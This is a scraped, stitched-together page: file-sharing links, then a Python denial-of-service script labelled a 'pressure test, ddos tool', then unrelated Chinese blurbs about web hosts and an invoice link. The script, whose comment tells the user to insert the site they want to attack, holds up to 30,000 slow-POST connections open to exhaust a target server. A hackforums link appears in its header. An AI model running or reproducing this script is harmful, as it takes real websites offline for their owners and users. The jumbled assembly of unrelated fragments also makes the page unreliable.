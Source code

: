 https://drive.google.com/file/d/1dF8K5RzVT6EC9I84LTdp5bCC0vn2LbnG/view

https://drive.google.com/file/d/1DNRlFUil5O4CEhkUpfnGjXTdr9tOp21r/view?usp=sharing

https://drive.google.com/file/d/1Cnl42jLjVgpyO4PkIFzKWDLwjVy8cVCZ/view?usp=sharing

https://github.com/fluttercandies/wechat_flutter

#!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
#https://paper.seebug.org/142/
#https://core.ac.uk/download/pdf/154333223.pdf
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
    
    
    
 CertifiedHosting - 成立于1999年，CertifiedHosting提供共享虚拟主机，经销主机托管和独立服务器。
NameCheap - Namecheap成立于2000年，是目前互联网上最大的域名注册商之一。自成立以来，Namecheap提供了许多服务，包括共享主机，经销主机托管，VPS主机和专用服务器。
BitcoinWebHosting - BitcoinWebHosting是专门提供主机服务给比特币社区的美国主机商。

https://clients.hostsailor.com/viewinvoice.php?id=171054
